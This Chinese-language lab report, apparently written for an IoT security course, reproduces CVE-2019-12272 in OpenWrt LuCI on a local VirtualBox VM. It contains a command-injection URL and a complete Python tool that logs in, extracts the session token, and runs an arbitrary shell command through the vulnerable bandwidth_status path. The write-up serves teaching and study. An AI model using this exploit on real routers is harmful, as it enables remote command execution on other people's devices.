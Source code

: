 ## 移动通信与物联网安全概述

### 实验要求  
- [x] OpenWrt LuCI 0.10漏洞复现  
- [x] 编写自动化漏洞利用工具  
### 实验环境  
* 参考 第一章实验 OpenWrt on VirtualBox 的方法，下载安装存在该漏洞的 OpenWrt 镜像版本。  
* OpenWrt br-lan的IP地址：192.168.56.3
### 漏洞复现    
* 搭建好luCI环境，使用管理员权限登录  
    ![](img04/luci界面1.PNG)
    ![](img04/luci界面2.PNG)  
* 设置管理员密码  
    * system-->administration  
    * 或者OpenWrt终端通过password口令设置

* 使用浏览器访问 
    ```
    http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) 
    ```   
    触发漏洞   
    ![](img04/attack-luci.PNG) 
* 访问 http://192.168.56.3/cmd.txt 获取上一步命令执行的结果。  
![](img04/复现结果.PNG)  
* OpenWrt上出现command.txt文件  
![](img04/攻击成功.PNG)  
* 既然可以输出ifconfig的结果，就可以修改访问代码，输出其他命令，比如id、ls等命令  
    ![id](img04/id.PNG)
    ![](img04/ls.PNG)

### 漏洞利用   
* 通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 curl 命令  
![](img04/copy.PNG)

* 通过第三方网站 将 curl 命令转换为 Python requests 代码  
    ```  
    import requests

    cookies = {
        'sysauth': '4d0127221bb93411098d3788e05dc678',
    }

    headers = {
        'Connection': 'keep-alive',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }

    response = requests.get('http://192.168.56.3/cgi-bin/luci/;stok=8112cbe04d3248924f97096f3b1e3d7a/admin/status/realtime/bandwidth_status/eth0%5E$(ifconfig%5E%%5E3ecmd.txt)', headers=headers, cookies=cookies, verify=False)
    ```  
### 编写自动化漏洞利用工具  

```  
import requests 

#用于字符串分割
from urllib.parse import urlparse 

#命令行传参
import sys
class CVE_2019_12272: 

    #定义实例变量，方便此类中的其他方法进行调用
    def __init__(self):
        self.host = '192.168.56.3'
        self.uname = 'root'
        self.upass = '123456'
        self.stok = ''
        self.cookies = ''
        self.headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6',
}
    #自动化登录，发出请求，从响应中获取信息
    def login(self):

        data = {
  'luci_username': self.uname,
  'luci_password': self.upass
}
        #访问luci网页
        response = requests.post('http://{host}/cgi-bin/luci'.format(host=self.host), headers=self.headers, data=data, verify=False,allow_redirects=False)

        #获取cookies
        self.cookies = response.cookies
        location = response.headers['location']

        #获取此次登陆的stok（因为每次的登陆的stok都不一样）
        self.stok = urlparse(location).params
        #print(response.headers)
        #print(response.cookies)

        #打印结果是stok=······
        #print(stok)

    #自动化漏洞利用
    def shell(self, cmd):
        #等同于手动过程中的访问网址完成攻击
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0%5E$({cmd}%3ecmd.txt)'.format(host=self.host,stok=self.stok,cmd=cmd)
        response = requests.get(url, headers=self.headers, cookies=self.cookies, verify=False)

    #输出上一步攻击的结果，并打印出来
    def view(self):
        #上一步指令的结果已经被写入到cmd.txt,所以访问这个文件查看
        url = 'http://{host}/cmd.txt'.format(host=self.host)
        response = requests.get(url, headers=self.headers)
        print(response.text)

if __name__ == "__main__":
    exp = CVE_2019_12272()
    exp.login()
    
    #可以自己在命令行输入口令，得到对应的攻击结果
    exp.shell(sys.argv[1])
    exp.view()  
```
* 运行结果示例  
![](img04/run1.PNG)
![](img04/run2.PNG)
  
* *一些补充*
因为luci界面每次登录的stok都不同，所以自动化漏洞利用时不仅需要获取用户名和密码，还有stok，方法如下：
![](img04/获取stok.PNG)
然后同样copy as url后，使用在线工具转换成python代码
    ```  
    import requests

    headers = {
        'Connection': 'keep-alive',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'http://192.168.56.3',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Referer': 'http://192.168.56.3/cgi-bin/luci',
        'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6',
    }

    data = {
    'luci_username': 'root',
    'luci_password': '123456'
    }

    response = requests.post('http://192.168.56.3/cgi-bin/luci', headers=headers, data=data, verify=False)  
    ```
    打印这个response，获取我们需要的信息。
    ![](img04/获取stok2.PNG)

### 问题与解决  
本章暂无
### 参考资料
[移动互联网课件](https://github.com/c4pr1c3/cuc-mis/blob/master/chap0x04/cve-2019-12272.md)
[移动互联网教学视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)